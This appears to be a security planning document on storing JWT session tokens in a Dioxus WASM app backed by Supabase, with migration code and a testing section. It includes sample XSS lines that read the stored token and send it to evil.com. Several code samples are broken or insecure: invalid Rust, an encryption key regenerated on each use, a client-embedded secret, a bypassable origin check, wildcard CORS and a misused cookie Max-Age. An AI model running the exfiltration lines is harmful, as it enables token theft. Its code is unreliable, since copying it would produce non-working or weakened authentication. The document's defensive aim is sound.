

# Token and Cookie Storage Strategy Plan

## Overview

This document provides a comprehensive analysis of token and cookie storage strategies for Content Profile application, comparing security implications, implementation complexity, and best practices for JWT-based authentication in a Dioxus WASM application.

### Current Implementation

**Storage Method**: localStorage
**Location**: `src/services/session.rs`
**What's Stored**: Complete `Session` object (access_token, refresh_token, expires_at, token_type, user)

```rust
struct StoredSession {
    session: Session,
}

// Stored as JSON in localStorage under key "cms_auth_session"
```

### Stored Data Structure

```json
{
  "session": {
    "access_token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...",
    "refresh_token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...",
    "expires_at": 1715044800,
    "token_type": "bearer",
    "user": {
      "id": "uuid-here",
      "email": "user@example.com",
      "email_confirmed_at": "2024-01-01T00:00:00Z",
      "created_at": "2024-01-01T00:00:00Z",
      "updated_at": "2024-01-01T00:00:00Z",
      "last_sign_in_at": "2024-01-01T00:00:00Z"
    }
  }
}
```

---

## Comparison of Storage Strategies

### Strategy 1: localStorage (Current)

**Description**: Stores session data in browser's localStorage API

| Aspect | Details |
|--------|---------|
| **Persistence** | Survives page reloads, browser restarts, tab closure |
| **Scope** | Same origin (domain + protocol + port) |
| **Capacity** | 5-10MB per domain |
| **Accessible from** | Any JavaScript on same domain |
| **Sent to Server** | Never (client-side only) |

#### Advantages
✅ Simple to implement  
✅ Persistent across sessions  
✅ No server-side changes needed  
✅ Works with client-side only apps  
✅ Easy to clear programmatically  
✅ Available in all browsers  

#### Disadvantages
❌ **Vulnerable to XSS attacks** - JavaScript can read tokens  
❌ Tokens accessible to malicious scripts  
❌ No automatic expiration mechanism  
❌ No CSRF protection by default  
❌ Can be accessed by browser extensions  

#### Security Risks

**XSS (Cross-Site Scripting)**:
- Any XSS vulnerability in app gives attackers full access to tokens
- Attackers can steal tokens and impersonate users
- No additional security layer

**Example Attack**:
```javascript
// Malicious script injected via XSS
const session = localStorage.getItem('cms_auth_session');
const accessToken = JSON.parse(session).session.access_token;
// Send token to attacker's server
fetch('https://evil.com/steal', {
  method: 'POST',
  body: JSON.stringify({ token: accessToken })
});
```

---

### Strategy 2: sessionStorage

**Description**: Stores session data in browser's sessionStorage API

| Aspect | Details |
|--------|---------|
| **Persistence** | Lost when tab/window closes |
| **Scope** | Same origin + same tab |
| **Capacity** | 5-10MB per domain |
| **Accessible from** | Any JavaScript on same domain |
| **Sent to Server** | Never (client-side only) |

#### Advantages
✅ Simple to implement  
✅ More secure than localStorage (shorter lifespan)  
✅ No server-side changes needed  
✅ Works with client-side only apps  

#### Disadvantages
❌ **Still vulnerable to XSS attacks**  
❌ Lost when tab closes (poor UX)  
❌ No CSRF protection  
❌ User must re-login on each new tab  

#### Security Risks

Same XSS vulnerabilities as localStorage, but with reduced exposure window due to shorter lifespan.

---

### Strategy 3: HttpOnly Cookies (Recommended for Production)

**Description**: Stores tokens in HTTP-only cookies set by server

| Aspect | Details |
|--------|---------|
| **Persistence** | Configurable (session vs persistent) |
| **Scope** | Configurable (domain, path, SameSite) |
| **Capacity** | 4KB per cookie |
| **Accessible from** | HTTP requests only (NOT JavaScript) |
| **Sent to Server** | Automatically with every request |

#### Advantages
✅ **XSS protected** - JavaScript cannot read cookies  
✅ **Automatic CSRF protection** with SameSite attribute  
✅ Tokens never exposed to client-side JavaScript  
✅ Automatic token transmission with requests  
✅ Secure flag for HTTPS only  
✅ Industry standard for web authentication  

#### Disadvantages
❌ **Requires server-side changes** (cannot use client-only Supabase)  
❌ More complex to implement  
❌ Cookie size limitations  
❌ Harder to debug (cannot inspect cookies from console)  
❌ Requires proxy/intermediate server for Supabase  

#### Implementation Requirements

**Server-Side Changes Needed**:
1. Create a backend server (Node.js, Rust, Python, etc.)
2. Proxy authentication requests to Supabase
3. Set HttpOnly cookies on successful authentication
4. Validate cookies on protected routes
5. Handle token refresh transparently

**Architecture**:
```
Client → Your Backend → Supabase Auth
         ↓
    Set HttpOnly Cookie
```

---

### Strategy 4: In-Memory Only

**Description**: Store tokens only in JavaScript memory (variables/state)

| Aspect | Details |
|--------|---------|
| **Persistence** | Lost on page refresh |
| **Scope** | Current page instance |
| **Capacity** | Unlimited |
| **Accessible from** | Only your application code |
| **Sent to Server** | Never (client-side only) |

#### Advantages
✅ Most secure against XSS (no storage)  
✅ No storage persistence concerns  
✅ Clean state on refresh  

#### Disadvantages
❌ **Poor UX** - must re-login on every refresh  
❌ Not practical for production use  
❌ Loses all unsaved work on refresh  

#### Use Case
Only suitable for highly sensitive applications where session persistence is intentionally avoided.

---

### Strategy 5: Hybrid Approach (Recommended for Current Setup)

**Description**: Combine localStorage with additional security measures

| Aspect | Details |
|--------|---------|
| **Persistence** | localStorage with expiration checks |
| **Scope** | Same origin |
| **Capacity** | 5-10MB per domain |
| **Accessible from** | Any JavaScript on same domain (mitigated) |
| **Sent to Server** | Never (client-side only) |

#### Advantages
✅ Maintains current localStorage implementation  
✅ Adds multiple security layers  
✅ No server-side changes needed  
✅ Better than plain localStorage  

#### Disadvantages
❌ Still has some XSS risk (reduced but not eliminated)  
❌ Requires careful implementation  

#### Security Enhancements

1. **Token Short-Lived**: Set access tokens to expire quickly (5-15 minutes)
2. **Refresh Token Rotation**: Use new refresh tokens on each refresh
3. **Encrypted Storage**: Encrypt tokens before storing
4. **Fingerprinting**: Add device/browser fingerprint validation
5. **Activity Tracking**: Monitor for suspicious activity

---

## Security Deep Dive

### XSS Vulnerabilities

#### What is XSS?

Cross-Site Scripting (XSS) allows attackers to inject malicious scripts into web pages viewed by other users.

#### Types of XSS

| Type | Description | Risk Level |
|------|-------------|-------------|
| **Stored XSS** | Malicious script stored on server and served to all users | 🔴 High |
| **Reflected XSS** | Malicious script reflected off server in error messages | 🔴 High |
| **DOM-based XSS** | Malicious script executes in client-side JavaScript | 🟡 Medium |
| **Self-XSS** | Users accidentally inject their own scripts | 🟢 Low |

#### Mitigation Strategies

**Input Sanitization**:
```rust
// Never trust user input
use ammonia::clean;

fn sanitize_user_input(input: &str) -> String {
    clean(input)  // Removes malicious HTML/JS
}
```

**Content Security Policy (CSP)**:
```html
<!-- Add to index.html -->
<meta http-equiv="Content-Security-Policy" 
      content="default-src 'self'; 
               script-src 'self' 'unsafe-inline' 'unsafe-eval'; 
               connect-src 'self' https://*.supabase.co;">
```

**Output Encoding**:
```rust
// Encode user-generated content before rendering
use html_escape::encode_text;

fn render_safe(content: &str) -> String {
    encode_text(content).to_string()
}
```

**Token Storage Best Practice for localStorage**:
```rust
// Add prefix that prevents direct access
const OBFUSCATED_KEY: &str = "__session__data__";
const ENCRYPTION_KEY: &str = env!("TOKEN_ENCRYPTION_KEY");

// Encrypt token before storing
fn encrypt_token(token: &str) -> Result<String, String> {
    // Use encryption library (e.g., aes-gcm)
    Ok(encrypted_string)
}

fn save_secure_session(session: &Session) -> Result<(), String> {
    let encrypted_access = encrypt_token(&session.access_token)?;
    let encrypted_refresh = encrypt_token(&session.refresh_token)?;
    
    let secure_session = SecureStoredSession {
        access_token: encrypted_access,
        refresh_token: encrypted_refresh,
        expires_at: session.expires_at,
        user: session.user.clone(),
    };
    
    // Store in localStorage
    // ...
}
```

### CSRF Vulnerabilities

#### What is CSRF?

Cross-Site Request Forgery (CSRF) tricks users into performing actions they didn't intend.

#### How It Works

```
1. User logs into yoursite.com (session active)
2. User visits evil.com
3. evil.com contains: 
4. Browser sends cookie to yoursite.com automatically
5. Account deleted without user's knowledge
```

#### Mitigation Strategies

**SameSite Cookie Attribute** (Only works with cookies):
```
Set-Cookie: session_id=xxx; HttpOnly; Secure; SameSite=Strict
```

**CSRF Tokens**:
```rust
// Generate CSRF token on login
fn generate_csrf_token() -> String {
    use uuid::Uuid;
    Uuid::new_v4().to_string()
}

// Store CSRF token (can be in localStorage - less sensitive)
fn save_csrf_token(token: &str) {
    localStorage::set_item("csrf_token", token);
}

// Validate CSRF token on state-changing requests
fn validate_csrf(token: &str) -> bool {
    let stored = localStorage::get_item("csrf_token");
    stored.map_or(false, |t| t == token)
}
```

**Double Submit Cookie Pattern**:
1. Generate token and store in cookie
2. Also send token in request body/header
3. Verify both match

**Origin/Referer Header Validation**:
```rust
fn validate_origin(request: &Request) -> bool {
    let allowed_origins = vec![
        "https://yourdomain.com",
        "https://app.yourdomain.com"
    ];
    
    request
        .headers()
        .get("Origin")
        .or_else(|| request.headers().get("Referer"))
        .map_or(false, |origin| {
            allowed_origins.iter().any(|allowed| origin.contains(allowed))
        })
}
```

---

## Token Management Best Practices

### Access Token Lifecycle



### Token Expiration Strategy

| Token Type | Recommended Expiration | Reason |
|-----------|---------------------|---------|
| **Access Token** | 5-15 minutes | Short exposure window |
| **Refresh Token** | 7-30 days | Balance security and UX |
| **Remember Me Token** | 30-90 days | Optional for "keep me logged in" feature |

### Token Rotation

**What is Token Rotation?**
Each time you refresh tokens, you receive a new refresh token and the old one is invalidated.

**Benefits**:
✅ Limits damage if a refresh token is stolen  
✅ Ensures only active sessions can refresh  
✅ Automatic logout of unused sessions  

**Supabase Support**: ✅ Supported (default behavior)

**Implementation**:
```rust
pub async fn refresh_token(&self, refresh_token: &str) -> Result<Session, String> {
    let url = format!("{}/token?grant_type=refresh_token", self.auth_url());
    let json_value = serde_json::json!({ "refresh_token": refresh_token });
    
    let response = Request::post(&url)
        .headers(self.get_headers()?)
        .body(serde_json::to_string(&json_value)?)
        .send()
        .await?;

    let auth_response: AuthResponse = response.json().await?;
    let session = auth_response.into_session();
    
    // Old refresh token is automatically invalidated by Supabase
    Ok(session)
}
```

---

## Implementation Strategies

### Option A: Keep localStorage (Current) + Enhance Security

**Effort**: Low (2-4 hours)  
**Security**: Medium  
**UX**: Good (persistent sessions)

**Implementation Steps**:

1. **Add CSP Headers**:
```rust
// src/main.rs
use dioxus::prelude::*;

fn main() {
    dioxus::launch(App);
}

#[component]
fn App() -> Element {
    rsx! {
        // Inject CSP meta tag
        head {
            meta {
                "http-equiv": "Content-Security-Policy",
                content: "default-src 'self'; script-src 'self'; connect-src 'self' https://*.supabase.co; img-src 'self' data: https:; style-src 'self' 'unsafe-inline';"
            }
        }
        Router::<Route> {}
    }
}
```

2. **Sanitize All User Inputs**:
```rust
// src/utils/sanitizer.rs
use ammonia::clean;

pub fn sanitize_html(input: &str) -> String {
    clean(input)
}

pub fn sanitize_text(input: &str) -> String {
    input
        .chars()
        .filter(|c| c.is_alphanumeric() || " .,-_".contains(*c))
        .collect()
}
```

3. **Add Token Encryption**:
```toml
# Cargo.toml
[dependencies]
aes-gcm = "0.10"
base64 = "0.22"
```

```rust
// src/services/secure_session.rs
use aes_gcm::{
    aead::{Aead, KeyInit},
    Aes256Gcm, Nonce,
};
use base64::{engine::general_purpose::STANDARD as BASE64, Engine};
use rand::Rng;

pub struct SecureSessionStorage {
    key: [u8; 32],
}

impl SecureSessionStorage {
    const SESSION_KEY: &str = "cms_auth_session_v2";

    pub fn new() -> Self {
        // In production, derive key from user-specific value
        let mut key = [0u8; 32];
        rand::thread_rng().fill(&mut key);
        Self { key }
    }

    fn encrypt(&self, data: &str) -> Result<String, String> {
        let cipher = Aes256Gcm::new(&self.key.into());
        let nonce = Nonce::new(rand::random());
        
        cipher
            .encrypt(&nonce, data.as_bytes())
            .map(|ciphertext| {
                let mut result = nonce.to_vec();
                result.extend_from_slice(&ciphertext);
                BASE64.encode(&result)
            })
            .map_err(|e| format!("Encryption failed: {}", e))
    }

    fn decrypt(&self, encrypted: &str) -> Result<String, String> {
        let decoded = BASE64
            .decode(encrypted)
            .map_err(|e| format!("Base64 decode failed: {}", e))?;
        
        if decoded.len() < 12 {
            return Err("Invalid encrypted data".to_string());
        }

        let (nonce, ciphertext) = decoded.split_at(12);
        let nonce = Nonce::from_slice(nonce)
            .map_err(|e| format!("Invalid nonce: {}", e))?;

        let cipher = Aes256Gcm::new(&self.key.into());
        cipher
            .decrypt(nonce, ciphertext)
            .map_err(|e| format!("Decryption failed: {}", e))
            .and_then(|p| String::from_utf8(p).map_err(|e| format!("UTF-8 error: {}", e)))
    }

    pub fn save_session(&self, session: &crate::models::Session) -> Result<(), String> {
        let encrypted_access = self.encrypt(&session.access_token)?;
        let encrypted_refresh = self.encrypt(&session.refresh_token)?;

        let secure_data = serde_json::json!({
            "at": encrypted_access,
            "rt": encrypted_refresh,
            "exp": session.expires_at,
            "user": session.user
        });

        if let Some(window) = web_sys::window() {
            if let Ok(Some(storage)) = window.local_storage() {
                storage
                    .set_item(Self::SESSION_KEY, &secure_data.to_string())
                    .map_err(|e| format!("Save failed: {:?}", e))?;
                return Ok(());
            }
        }
        Err("Failed to access localStorage".to_string())
    }

    pub fn load_session(&self) -> Result<Option<crate::models::Session>, String> {
        if let Some(window) = web_sys::window() {
            if let Ok(Some(json)) = window.local_storage()?.get_item(Self::SESSION_KEY) {
                let secure_data: serde_json::Value = serde_json::from_str(&json)
                    .map_err(|e| format!("Parse failed: {}", e))?;

                let encrypted_access = secure_data["at"]
                    .as_str()
                    .ok_or("Missing access token")?;
                let encrypted_refresh = secure_data["rt"]
                    .as_str()
                    .ok_or("Missing refresh token")?;
                let expires_at = secure_data["exp"]
                    .as_i64()
                    .ok_or("Missing expiration")?;
                let user: crate::models::User = serde_json::from_value(secure_data["user"].clone())
                    .map_err(|e| format!("Invalid user: {}", e))?;

                let access_token = self.decrypt(encrypted_access)?;
                let refresh_token = self.decrypt(encrypted_refresh)?;

                return Ok(Some(crate::models::Session {
                    access_token,
                    refresh_token,
                    expires_at,
                    token_type: "bearer".to_string(),
                    user,
                }));
            }
        }
        Ok(None)
    }
}
```

4. **Update AuthService to Use Secure Storage**:
```rust
// src/services/auth.rs
use crate::services::secure_session::SecureSessionStorage;

impl AuthService {
    pub async fn login(&self, request: LoginRequest) -> Result<Session, String> {
        // ... existing login code ...

        let session = auth_response.into_session();
        let secure_storage = SecureSessionStorage::new();
        secure_storage.save_session(&session)?;
        
        Ok(session)
    }
}
```

5. **Add Automatic Token Refresh**:
```rust
// src/hooks/use_auto_auth.rs
use dioxus::prelude::*;
use crate::services::secure_session::SecureSessionStorage;

pub fn use_auto_auth() {
    let user_context = use_context::<UserContext>();
    
    // Refresh token 5 minutes before expiration
    use_effect(move || {
        async move {
            let secure_storage = SecureSessionStorage::new();
            
            if let Ok(Some(session)) = secure_storage.load_session() {
                let now = chrono::Utc::now().timestamp();
                let five_minutes = 300;
                
                if session.expires_at - now < five_minutes {
                    if let Ok(new_session) = user_context
                        .refresh_token(&session.refresh_token)
                        .await
                    {
                        let _ = secure_storage.save_session(&new_session);
                    }
                }
            }
        }
    });
}
```

---

### Option B: Migrate to HttpOnly Cookies (Most Secure)

**Effort**: High (20-40 hours)  
**Security**: Very High  
**UX**: Excellent (transparent token management)

**Architecture Changes**:
```
Current:
Client → Supabase Auth (direct)
  ↓
localStorage (tokens)

New:
Client → Your Proxy Server → Supabase Auth
  ↓
    HttpOnly Cookie (set by proxy)
```

**Implementation Steps**:

1. **Create Backend Server**:
```toml
# proxy-server/Cargo.toml
[package]
name = "auth-proxy"
version = "0.1.0"
edition = "2024"

[dependencies]
axum = "0.7"
tokio = { version = "1", features = ["full"] }
tower-http = { version = "0.5", features = ["cors", "trace"] }
serde = { version = "1", features = ["derive"] }
serde_json = "1"
tracing = "0.1"
tracing-subscriber = "0.3"
```

```rust
// proxy-server/src/main.rs
use axum::{
    extract::{Request, State},
    http::StatusCode,
    response::{IntoResponse, Json, Response},
    routing::{get, post},
    Router,
};
use serde::{Deserialize, Serialize};
use tower_http::cors::{Any, CorsLayer};
use std::sync::Arc;

#[derive(Clone)]
struct AppState {
    supabase_url: String,
    supabase_anon_key: String,
}

#[derive(Deserialize)]
struct LoginRequest {
    email: String,
    password: String,
}

#[derive(Serialize)]
struct AuthResponse {
    access_token: String,
    refresh_token: String,
    expires_at: i64,
    token_type: String,
}

#[tokio::main]
async fn main() {
    let state = AppState {
        supabase_url: std::env::var("SUPABASE_URL")
            .expect("SUPABASE_URL must be set"),
        supabase_anon_key: std::env::var("SUPABASE_ANON_KEY")
            .expect("SUPABASE_ANON_KEY must be set"),
    };

    let cors = CorsLayer::new()
        .allow_origin(Any)
        .allow_methods(Any)
        .allow_headers(Any);

    let app = Router::new()
        .route("/auth/login", post(login_handler))
        .route("/auth/signup", post(signup_handler))
        .route("/auth/refresh", post(refresh_handler))
        .route("/auth/logout", post(logout_handler))
        .route("/proxy/*", any(proxy_handler))
        .layer(cors)
        .with_state(state);

    let listener = tokio::net::TcpListener::bind("0.0.0.0:3001")
        .await
        .unwrap();
    
    tracing::info!("Auth proxy listening on http://0.0.0.0:3001");
    axum::serve(listener, app).await.unwrap();
}

async fn login_handler(
    State(state): State<AppState>,
    Json(req): Json<LoginRequest>,
) -> Result<Response, Json<serde_json::Value>> {
    let client = reqwest::Client::new();
    let url = format!("{}/auth/v1/token?grant_type=password", state.supabase_url);
    
    let response = client
        .post(&url)
        .header("apikey", &state.supabase_anon_key)
        .header("Content-Type", "application/json")
        .json(&req)
        .send()
        .await;

    match response {
        Ok(resp) if resp.status().is_success() => {
            let auth_response: AuthResponse = resp.json().await.map_err(|e| {
                Json(serde_json::json!({ "error": format!("Parse error: {}", e) }))
            })?;

            // Set HttpOnly cookie with access token
            let cookie = format!(
                "access_token={}; HttpOnly; Secure; Path=/; SameSite=Strict; Max-Age={}",
                auth_response.access_token,
                auth_response.expires_at as i32
            );

            Ok((
                StatusCode::OK,
                [(axum::http::header::SET_COOKIE, cookie)],
                Json(serde_json::json!({ "success": true })),
            ).into_response())
        }
        Ok(resp) => {
            let error: serde_json::Value = resp.json().await.map_err(|e| {
                Json(serde_json::json!({ "error": format!("Parse error: {}", e) }))
            })?;
            Ok((
                StatusCode::BAD_REQUEST,
                Json(error)
            ).into_response())
        }
        Err(e) => Ok((
            StatusCode::INTERNAL_SERVER_ERROR,
            Json(serde_json::json!({ "error": format!("Proxy error: {}", e) }))
        ).into_response()),
    }
}

// Implement signup_handler, refresh_handler, logout_handler similarly...

async fn proxy_handler(
    State(state): State<AppState>,
    req: Request,
) -> Result<Response, String> {
    // Forward requests to Supabase with authentication
    let path = req.uri().path().strip_prefix("/proxy").unwrap();
    let url = format!("{}{}", state.supabase_url, path);
    
    // Extract access_token from cookie and add to Authorization header
    // ... implementation ...
    
    Ok(Response::new(()))  // Placeholder
}
```

2. **Update Client to Use Proxy**:
```rust
// src/services/auth.rs
use gloo_net::http::Request;

impl AuthService {
    // Instead of calling Supabase directly, call your proxy
    pub async fn login(&self, request: LoginRequest) -> Result<Session, String> {
        let url = "http://localhost:3001/auth/login";
        
        let response = Request::post(url)
            .json(&request)?
            .send()
            .await?;

        // No longer need to store tokens - they're in HttpOnly cookies
        // Return session metadata only
        Ok(Session {
            access_token: String::new(),  // Not stored client-side
            refresh_token: String::new(),  // Not stored client-side
            expires_at: 0,
            token_type: "bearer".to_string(),
            user: user_data,
        })
    }
}
```

3. **Update API Calls to Use Cookies**:
```rust
// gloo-net doesn't support cookies natively, need to use web_sys
use web_sys::{RequestInit, Headers, window};

pub async fn make_authenticated_request(url: &str) -> Result<String, String> {
    let headers = Headers::new();
    // Cookie is automatically sent by browser
    
    let mut opts = RequestInit::new();
    opts.method("GET");
    opts.headers(&headers);
    
    let request = web_sys::Request::new_with_str_and_init(url, &opts)
        .map_err(|e| format!("Request failed: {}", e))?;
    
    let window = window()
        .ok_or("No window object")?;
    
    let response = window
        .fetch_with_request(&request)
        .await
        .map_err(|e| format!("Fetch failed: {}", e))?;
    
    // ... handle response ...
}
```

---

### Option C: Hybrid Approach (Recommended Balance)

**Effort**: Medium (8-12 hours)  
**Security**: High  
**UX**: Good (with manual re-auth occasionally)

**Strategy**: Store only refresh token in localStorage, access token in memory

**Benefits**:
✅ Refresh tokens can be rotated (less critical if stolen)  
✅ Access tokens never persisted (minimal XSS window)  
✅ No server changes needed  
✅ Better security than full localStorage  

**Implementation**:

```rust
// src/services/hybrid_session.rs
use crate::models::{Session, User};

pub struct HybridSessionStorage {
    const REFRESH_KEY: &str = "cms_refresh_token_v3";
}

impl HybridSessionStorage {
    /// Save only refresh token to localStorage
    pub fn save_refresh_token(refresh_token: &str) -> Result<(), String> {
        if let Some(window) = web_sys::window() {
            if let Ok(Some(storage)) = window.local_storage() {
                storage
                    .set_item(Self::REFRESH_KEY, refresh_token)
                    .map_err(|e| format!("Save failed: {:?}", e))?;
                return Ok(());
            }
        }
        Err("Failed to access localStorage".to_string())
    }

    /// Load refresh token from localStorage
    pub fn load_refresh_token() -> Result<Option<String>, String> {
        if let Some(window) = web_sys::window() {
            if let Ok(Some(token)) = window.local_storage()?.get_item(Self::REFRESH_KEY) {
                return Ok(Some(token));
            }
        }
        Ok(None)
    }

    /// Clear refresh token
    pub fn clear_refresh_token() -> Result<(), String> {
        if let Some(window) = web_sys::window() {
            if let Ok(Some(storage)) = window.local_storage() {
                storage
                    .remove_item(Self::REFRESH_KEY)
                    .map_err(|e| format!("Clear failed: {:?}", e))?;
                return Ok(());
            }
        }
        Err("Failed to access localStorage".to_string())
    }

    /// Check if refresh token exists
    pub fn has_refresh_token() -> bool {
        Self::load_refresh_token()
            .unwrap_or(None)
            .is_some()
    }
}

// In-memory access token storage
use dioxus::prelude::*;

#[component]
pub fn AuthProvider(children: Element) -> Element {
    let mut access_token = use_signal(|| Option::<String>::None);
    let mut user = use_signal(|| Option::<User>::None);
    
    // On app load, try to refresh session using stored refresh token
    use_effect(move || {
        async move {
            if let Ok(Some(refresh_token)) = HybridSessionStorage::load_refresh_token() {
                let user_context = use_context::<UserContext>();
                
                if let Ok(session) = user_context.refresh_token(&refresh_token).await {
                    // Store access token in memory only
                    access_token.set(Some(session.access_token));
                    user.set(Some(session.user));
                    
                    // Save new refresh token
                    let _ = HybridSessionStorage::save_refresh_token(&session.refresh_token);
                }
            }
        }
    });
    
    rsx! {
        context_provider::<Signal<Option<String>>> {
            value: access_token,
            { children }
        }
    }
}
```

---

## Security Checklist

### For localStorage (Current)

- [ ] Implement Content Security Policy (CSP)
- [ ] Sanitize all user inputs (HTML, URLs, etc.)
- [ ] Use short-lived access tokens (5-15 minutes)
- [ ] Implement automatic token refresh
- [ ] Add device/browser fingerprinting
- [ ] Encrypt tokens before storing
- [ ] Implement token rotation
- [ ] Add activity monitoring
- [ ] Validate all API responses
- [ ] Use HTTPS in production

### For HttpOnly Cookies (Recommended for Production)

- [ ] Set HttpOnly flag on all auth cookies
- [ ] Set Secure flag (HTTPS only)
- [ ] Set SameSite=Strict or SameSite=Lax
- [ ] Implement CSRF tokens
- [ ] Validate Origin/Referer headers
- [ ] Use short-lived sessions
- [ ] Implement token rotation
- [ ] Add rate limiting
- [ ] Monitor for suspicious activity
- [ ] Use HSTS headers

### General Best Practices

- [ ] Never store passwords (only tokens)
- [ ] Log out on all devices option
- [ ] Password strength requirements
- [ ] Two-factor authentication (2FA) when possible
- [ ] Session management dashboard for users
- [ ] Audit logging for sensitive actions
- [ ] Regular security audits
- [ ] Keep dependencies updated
- [ ] Use environment variables for secrets
- [ ] Implement graceful error handling

---

## Recommendations for Content Profile

### Current Assessment

**Your Application**: Dioxus WASM app with Supabase backend  
**Current Storage**: localStorage (Session object)  
**Security Level**: Medium (vulnerable to XSS)  

### Recommended Strategy

**Phase 1: Quick Wins (Immediate - 2-4 hours)**
1. Add Content Security Policy headers
2. Sanitize all user inputs
3. Shorten access token expiration to 10 minutes
4. Implement automatic token refresh

**Phase 2: Enhanced Security (Short-term - 8-12 hours)**
1. Migrate to Hybrid approach (refresh token in localStorage, access token in memory)
2. Add token encryption for localStorage
3. Implement CSRF tokens
4. Add activity monitoring

**Phase 3: Production Ready (Long-term - 20-40 hours)**
1. Create proxy server for HttpOnly cookie management
2. Migrate to cookie-based authentication
3. Implement comprehensive security monitoring
4. Add 2FA support

### Implementation Priority

| Priority | Task | Effort | Security Impact |
|----------|------|--------|-----------------|
| 🔴 Critical | Add CSP headers | 1 hour | High |
| 🔴 Critical | Sanitize inputs | 2 hours | High |
| 🟠 High | Shorten token expiration | 30 min | Medium |
| 🟠 High | Auto token refresh | 2 hours | High |
| 🟡 Medium | Token encryption | 4 hours | Medium |
| 🟡 Medium | Hybrid approach | 8 hours | High |
| 🟢 Optional | HttpOnly cookies | 30 hours | Very High |

---

## Migration Guide: localStorage → Hybrid Approach

### Step 1: Update Session Storage

```rust
// src/services/hybrid_session.rs (NEW FILE)
use serde::{Deserialize, Serialize};
use crate::models::User;

#[derive(Debug, Clone, Serialize, Deserialize)]
struct RefreshTokenData {
    token: String,
    user_id: String,
    expires_at: i64,
}

pub struct HybridSessionStorage;

impl HybridSessionStorage {
    const REFRESH_KEY: &str = "cms_refresh_token_hybrid";

    pub fn save_refresh_token(refresh_token: &str, user: &User, expires_at: i64) -> Result<(), String> {
        if let Some(window) = web_sys::window() {
            if let Ok(Some(storage)) = window.local_storage() {
                let data = RefreshTokenData {
                    token: refresh_token.to_string(),
                    user_id: user.id.clone(),
                    expires_at,
                };
                let json = serde_json::to_string(&data)
                    .map_err(|e| format!("Serialization failed: {}", e))?;
                storage
                    .set_item(Self::REFRESH_KEY, &json)
                    .map_err(|e| format!("Save failed: {:?}", e))?;
                return Ok(());
            }
        }
        Err("Failed to access localStorage".to_string())
    }

    pub fn load_refresh_token() -> Result<Option<String>, String> {
        if let Some(window) = web_sys::window() {
            if let Ok(Some(json)) = window.local_storage()?.get_item(Self::REFRESH_KEY) {
                let data: RefreshTokenData = serde_json::from_str(&json)
                    .map_err(|e| format!("Parse failed: {}", e))?;
                
                let now = chrono::Utc::now().timestamp();
                if data.expires_at > now {
                    return Ok(Some(data.token));
                }
            }
        }
        Ok(None)
    }

    pub fn clear_refresh_token() -> Result<(), String> {
        if let Some(window) = web_sys::window() {
            if let Ok(Some(storage)) = window.local_storage() {
                storage
                    .remove_item(Self::REFRESH_KEY)
                    .map_err(|e| format!("Clear failed: {:?}", e))?;
                return Ok(());
            }
        }
        Err("Failed to access localStorage".to_string())
    }
}
```

### Step 2: Create In-Memory Auth Provider

```rust
// src/providers/auth_provider.rs (NEW FILE)
use crate::contexts::UserContext;
use crate::models::{Session, User};
use crate::services::hybrid_session::HybridSessionStorage;
use dioxus::prelude::*;

#[derive(Clone)]
pub struct AuthState {
    pub access_token: Signal<Option<String>>,
    pub user: Signal<Option<User>>,
}

impl Default for AuthState {
    fn default() -> Self {
        Self {
            access_token: use_signal(|| None),
            user: use_signal(|| None),
        }
    }
}

#[component]
pub fn AuthProvider(children: Element) -> Element {
    let auth_state = AuthState::default();
    let user_context = use_context::<UserContext>();

    // Try to restore session on mount
    use_effect(move || {
        async move {
            if let Ok(Some(refresh_token)) = HybridSessionStorage::load_refresh_token() {
                if let Ok(session) = user_context.refresh_token(&refresh_token).await {
                    // Store in memory only
                    auth_state.access_token.set(Some(session.access_token));
                    auth_state.user.set(Some(session.user.clone()));
                    
                    // Save new refresh token
                    let _ = HybridSessionStorage::save_refresh_token(
                        &session.refresh_token,
                        &session.user,
                        session.expires_at
                    );
                }
            }
        }
    });

    rsx! {
        context_provider {
            value: auth_state.clone(),
            { children }
        }
    }
}

// Helper hook to access auth state
pub fn use_auth_state() -> AuthState {
    use_context::<AuthState>()
}
```

### Step 3: Update API Service to Use In-Memory Token

```rust
// src/services/content.rs
use crate::providers::auth_provider::use_auth_state;

impl ContentService {
    pub async fn get_all_content(&self) -> Result<Vec<Content>, String> {
        let auth_state = use_auth_state();
        
        // Get access token from memory
        let access_token = auth_state.access_token.read()
            .as_ref()
            .ok_or("Not authenticated")?;

        // Use token for API call
        // ... existing code ...
    }
}
```

### Step 4: Update Auth Service

```rust
// src/services/auth.rs
use crate::providers::auth_provider::use_auth_state;
use crate::services::hybrid_session::HybridSessionStorage;

impl AuthService {
    pub async fn login(&self, request: LoginRequest) -> Result<Session, String> {
        // ... existing login code ...
        
        let session = auth_response.into_session();
        
        // Store only refresh token in localStorage
        HybridSessionStorage::save_refresh_token(
            &session.refresh_token,
            &session.user,
            session.expires_at
        )?;
        
        // Store access token and user in memory via AuthProvider
        let auth_state = use_auth_state();
        auth_state.access_token.set(Some(session.access_token));
        auth_state.user.set(Some(session.user.clone()));
        
        Ok(session)
    }

    pub async fn logout(&self) -> Result<(), String> {
        // Clear refresh token from localStorage
        HybridSessionStorage::clear_refresh_token()?;
        
        // Clear in-memory state
        let auth_state = use_auth_state();
        auth_state.access_token.set(None);
        auth_state.user.set(None);
        
        Ok(())
    }
}
```

### Step 5: Wrap App with AuthProvider

```rust
// src/main.rs
use dioxus::prelude::*;
use crate::providers::auth_provider::AuthProvider;
use crate::routes::Route;

fn main() {
    dioxus::launch(App);
}

#[component]
fn App() -> Element {
    rsx! {
        AuthProvider {
            Router::<Route> {}
        }
    }
}
```

---

## Testing Strategy

### Security Testing

**XSS Testing**:
```javascript
// Test 1: Script injection in content
const maliciousContent = '<script>fetch("https://evil.com/steal?token=" + localStorage.getItem("cms_auth_session") + ")</script>';

// Test 2: Event handler injection
const maliciousInput = '';

